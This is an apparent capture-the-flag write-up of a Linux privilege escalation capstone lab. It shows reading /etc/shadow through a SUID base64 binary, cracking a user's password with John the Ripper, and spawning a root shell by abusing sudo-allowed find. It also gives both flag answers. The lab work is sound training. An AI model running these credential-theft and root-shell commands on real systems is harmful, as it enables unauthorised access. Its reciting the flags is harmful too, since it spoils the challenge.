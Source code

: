 We made it to the capstone challenge!

By now you have a fairly good understanding of the main privilege escalation vectors on Linux and this challenge should be fairly easy.

You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root.
We designed this room to help you build a thorough methodology for Linux privilege escalation that will be very useful in exams such as OSCP and your penetration testing engagements.

Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

You can access the target machine over your browser or use the SSH credentials below.

### Q.1: What is the content of the flag1.txt file?
I am going to go through the techniques learned in this room sequentially, until we find a method to use.

After that, let's see what type of privileges we have by ```whoami``` and ```id``` command.
```
[leonard@ip-10-201-11-28 ~]$ whoami
leonard
[leonard@ip-10-201-11-28 ~]$ id
uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
Unfortunately, we can’t use ```sudo  - l```. 

I tried printing the passwd files to see which users are on the system:
```cat /etc/passwd | cut -d ":" -f 1```

The shadow file is off limits though. The history file also not showing anything useful. 

We've to find a files that are readable, writable and executable by all user.
```find / -type f -perm 0777 2>/dev/null```. These command doesn't showing anything.

Another try, look for files with the SUID bit:
```find / -type f -perm -u=s -ls 2>/dev/null```

Remember in the SUID section when we used **base64** to **unshadow our /shadow and /passwd** file. Let's do that again.
```
[leonard@ip-10-201-49-126 ~]$ find / -type f -perm -u=s -ls 2>/dev/null
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
```

This allows us to do the unshadow trick again, and cracking with john:
```base64 /etc/shadow | base64 --decode > shadow.txt && base64 /etc/passwd | base64 --decode > passwd.txt```

Now we are ready to use unshadow again,. Remember, we need to do this on our local machine. So I has to manually copy the file contents in new files on our local machine. Finally, run the following:
```unshadow passwd.txt shadow.txt > password.txt```

Now, in our local terminal, we can use **John The Ripper** to crack the password. Run the command ```sudo unshadow passwd.txt shadow.txt > password.txt```. We can see that Missy's password is **Password1**.
```
john --wordlist=/usr/share/wordlists/rockyou.txt password.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)     
```
Now, back in Leonard's terminal, let's try to log in as **Missy**. Run the ```su missy``` and enter password.
```
[leonard@ip-10-201-49-126 ~]$ su missy
Password: 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "C.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
[missy@ip-10-201-49-126 leonard]$ whoami
missy
```
The ```sudo -l``` command will reveal that **missy** no needs password to access data.

Now we can go ahead and access our **flag1.txt** file. First we need to find it by ```find / -name flag1.txt 2>/dev/null```.
```
[missy@ip-10-201-13-219 leonard]$ find / -name flag1.txt 2>/dev/null
/home/missy/Documents/flag1.txt
```
To read the flag, simply run ```cat /home/missy/Documents/flag1.txt```.
```
[missy@ip-10-201-13-219 leonard]$ cat /home/missy/Documents/flag1.txt
THM-42828719920544
```
### Answer: THM-42828719920544

### Q.2: What is the content of the flag2.txt file?
With that over it, we can check for more vulnerabilities. We lack root after all. Going through a similar process as before, I quickly found out something interesting while running ```sudo -l`` again:
```
[missy@ip-10-201-13-219 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-201-13-219:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL
    PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-201-13-219:
    (ALL) NOPASSWD: /usr/bin/find
```
Missy can run ```/usr/bin/find``` as **root**.

Where to find out how to abuse this? GTFOBins of course: https://gtfobins.github.io/gtfobins/find

As mentioned:

If the binary is allowed to run as superuser by ```sudo```, it has root privileges and can be used to access the file system, escalate or maintain privileged access.
```sudo find . -exec /bin/sh \; -quit```

This gives us root:
```
[missy@ip-10-201-13-219 leonard]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

The final flag can be found here:
```
sh-4.2# find / -name flag2.txt 2>/dev/null
/home/rootflag/flag2.txt
```

Let’s read it:
```
sh-4.2# cat /home/rootflag/flag2.txt
THM-168824782390238
```
### Answer: THM-168824782390238

We are done with Linux Privilege Escalation!

## Congratulations, we are done! WE DID IT!
